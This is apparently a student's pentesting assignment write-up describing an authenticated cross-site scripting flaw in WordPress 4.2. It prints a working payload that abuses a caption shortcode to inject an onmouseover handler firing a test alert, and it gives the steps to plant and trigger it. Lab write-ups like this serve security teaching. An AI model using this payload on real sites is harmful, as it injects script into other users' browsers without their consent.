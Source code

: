 # Assignment 7-Pentesting
1. Wordpress: XSS(Authenticated)
   - Summary
      - Vulnerability type: Authentivated Cross site scripting
      - WP version: 4.2
      - HTML line: <a href="[caption code="]></a><a title=" onmouseover=alert('xss testing') ">title=" onmouseover=alert('xss testing')>link</a>
      - Steps: 
           - Wrote the above html code to post a link in a page with admin privilege
           - Saved it and the link is posted on the admin's page
           - Admin hovers on the link posted and the exploit is triggered
   - Gif walkthrough
         
 ![](xss.gif)
